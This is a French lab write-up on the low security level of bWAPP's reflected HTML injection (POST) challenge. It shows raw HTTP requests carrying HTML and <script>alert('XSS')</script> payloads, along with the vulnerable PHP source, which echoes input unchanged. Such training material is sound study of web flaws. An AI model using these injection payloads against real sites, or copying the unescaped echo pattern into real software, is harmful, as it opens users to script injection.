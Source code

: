 # Niveau "Low"

## Exploitation

L'exploitation est ici triviale. Le prénom et le nom sont renseignés dans un formulaire transféré par la méthode HTTP `POST` :&#x20;

![](<../../../../../.gitbook/assets/image (17) (1).png>)

Dont voici la requête :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 46
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: security_level=0; PHPSESSID=ca654b413e48f90c2da7d8bf914be955
Connection: close

firstname=pr%C3%A9nom&lastname=nom&form=submit
```

L'affichage des paramètres d'URL se faire directement au sein de la balise `<div></div>` contenant également le formulaire :&#x20;

```html
<div id="main">
  <h1>HTML Injection - Reflected (POST)</h1>
  <p>Enter your first and last name:</p>
  <form action="/bWAPP/htmli_post.php" method="POST">
    <p><label for="firstname">First name:</label><br />
    <input type="text" id="firstname" name="firstname"></p>
    <p><label for="lastname">Last name:</label><br />
    <input type="text" id="lastname" name="lastname"></p>
    <button type="submit" name="form" value="submit">Go</button>  
  </form>
  <br />
  Welcome prénom nom
</div>
```

Une première tentative d'injection peut se faire en se limitant à du code HTML, bien qu'il soit également possible d'injecter du Javascript :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 128
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: security_level=0; PHPSESSID=ca654b413e48f90c2da7d8bf914be955
Connection: close

firstname=%3Ch1%3ETitre+H1+contenant+le+pr%C3%A9nom%3C%2Fh1%3E&lastname=%3Ch1%3ETitre+H1+contenant+le+nom%3C%2Fh1%3E&form=submit
```

![](<../../../../../.gitbook/assets/image (19) (1).png>)

Mais l'injection Javascript est également tout à fait possible, ici avec `<script>alert('XSS')</script>` :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 82
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: security_level=0; PHPSESSID=ca654b413e48f90c2da7d8bf914be955
Connection: close

firstname=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&lastname=nom&form=submit
```

![](<../../../../../.gitbook/assets/image (9) (1) (1).png>)

## Analyse du code source

Après avoir testé que les paramètres sont bien présents, l'affichage s'effectue grâce à un simple `echo` :

{% code title="htmli_post.php" %}
```php
if(isset($_POST["firstname"]) && isset($_POST["lastname"])) {
  $firstname = $_POST["firstname"];
  $lastname = $_POST["lastname"];

  if($firstname == "" or $lastname == "") {
    echo "<font color=\"red\">Please enter both fields...</font>";
  }
  else {
    echo "Welcome " . htmli($firstname) . " " .  htmli($lastname);
  }
}
```
{% endcode %}

Les données sont au préalable traitées par la méthode `htmli()` permettant de gérer la difficulté du niveau sélectionné :

{% code title="htmli_post.php" %}
```php
function htmli($data) {
  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);
      break;
    case "1" :
      $data = xss_check_1($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;;
  }

  return $data;
}
```
{% endcode %}

Le level "Low" correspond à la valeur 0, c'est à dire ici à l'exécution de la méthode `no_check()` qui retourne simplement la donnée :&#x20;

{% code title="functions_external.php" %}
```php
function no_check($data) {
  return $data
}
```
{% endcode %}

